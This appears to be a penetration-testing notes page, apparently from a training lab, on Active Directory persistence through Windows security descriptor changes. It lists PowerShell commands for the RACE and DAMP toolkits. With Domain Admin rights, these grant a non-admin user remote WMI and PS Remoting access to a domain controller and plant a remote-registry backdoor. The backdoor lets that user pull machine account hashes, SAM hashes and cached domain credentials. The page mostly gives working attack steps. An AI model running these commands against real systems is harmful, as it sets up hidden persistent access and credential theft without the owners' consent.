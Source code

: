 # Security Descriptors

## Format

Security Descriptor Definition Language (SDDL) defines the format which is used to describe a security descriptor.

{% tabs %}
{% tab title="Syntax" %}
`ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
{% endtab %}
{% endtabs %}

Detailed docs about SDDL:

{% embed url="https://learn.microsoft.com/en-us/windows/win32/secauthz/ace-strings" %}

## Pre-reqs

* Domain Admin Privs

## Exploitation

Once we have administrator privileges it is possible to create a backdoor by modifying Security Descriptors like Owner, primary group, DACL and SACL of multiple remote access methods to allow access to non-admin users.

### WMI - GUI

It is possible to add the non-admin user to the ACE using the `Component Services` and `Computer Management`.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>Component Services</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2) (2).png" alt=""><figcaption><p>Computer Management</p></figcaption></figure>

Apply to all namespaces

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Computer Management</p></figcaption></figure>

<pre class="language-powershell"><code class="lang-powershell"><strong># Check if worked
</strong><strong># Worked if didn't get access denied 
</strong><strong>gwmi -class win32_operatingsystem -ComputerName &#x3C;dc_machine>
</strong></code></pre>

### WMI - PowerShell

ACE for built-in administrators for WMI namespaces `A;CI;CCDCLCSWRPWPRCWD;;;SID`

in order to get access to WMI namespaces attacker needs to create a new ACE with the `SID` to non-admin user which he controls.

ACLs can be modified to allow non-admin users using the [RACE toolkit](https://github.com/samratashok/RACE):

{% hint style="danger" %}
Require Domain Admin privileges
{% endhint %}

```powershell
# Loading the module
. C:\AD\Tools\RACE-master\RACE.ps1


Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

# with explicit credentials
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose

# Remove
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose

```

PS Remoting (not stable after August 2020 patches)

```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose

# Remove
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```

### Remote Registry

**Reg backdoo**r using [DAMP](https://github.com/HarmJ0y/DAMP) Tool allows to non-admin user to retrieve the hash of the computer, the SAM and cached credentials in the computer:

```bash
# Modify ACE with admin privs
Add-RemoteRegBackdoor -ComputerName <remotehost> -Trustee student1 -Verbose

# retrieve machine hash
Get-RemoteMachineAccountHash -ComputerName <remotehost> -Verbose

# retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName <remotehost> -Verbose

# retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName <remotehost> -Verbose
```
